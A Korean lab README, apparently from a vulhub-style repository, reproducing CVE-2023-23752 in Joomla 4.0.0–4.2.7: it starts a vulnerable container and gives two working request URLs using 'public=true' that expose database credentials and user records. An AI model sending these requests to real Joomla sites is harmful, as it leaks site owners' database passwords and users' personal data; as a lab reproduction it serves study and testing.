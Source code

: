 # **CVE-2023-23752 - Joomla improper access check in webservice endpoints Poc**


Joomla는 Mysql 데이터베이스를 이용하여 웹 안에서 다양한 컨텐츠를 관리할 수 있고 다양한 언어도 함께 지원하고 PHP 기반 오픈 소스 저작물 관리 시스템입니다.

Joomla 4.0.0부터 4.2.7까지에서 문제가 발견되었습니다.

## 참고 문헌


- https://github.com/vulhub/vulhub/tree/master/joomla/CVE-2023-23752
- [https://ko.wikipedia.org/wiki/줌라](https://ko.wikipedia.org/wiki/%EC%A4%8C%EB%9D%BC)

## 취약 환경


Joomla 서버 4.2.7을 시작하기 위해 다음 명령어를 실행합니다.

```bash
docker compose up -d
```

서버가 시작된 후, 웹 브라우저에서 [`http://your-ip:8080`](http://your-ip:8080/) 접속할 수 있습니다.

## **Exploit**


이 문제는 속성(attribute) 덮어쓰기 문제로 인해 발생하며, 공격자는 `public=true` 값을 사용하여 인가(authorization) 검사를 우회할 수 있습니다.

```bash
http://your-ip:8080/api/index.php/v1/config/application?public=true
```

![Image](https://github.com/user-attachments/assets/24598f38-48b3-4271-9084-cf1b6887eae3)

MySQL 사용자 이름과 비밀번호를 포함한 것들을 공개:

![Image](https://github.com/user-attachments/assets/44c09620-f5ba-475e-a26e-3a2a6354af4e)

`public=true` 를 하지 않으면 접근 허가되지 않습니다.

```bash
http://your-ip:8080/api/index.php/v1/users?public=true
```

![Image](https://github.com/user-attachments/assets/17d59131-fc71-4eac-b0ec-5562b8083c4e)

이메일을 포함한 모든 사용자 정보를 공개:
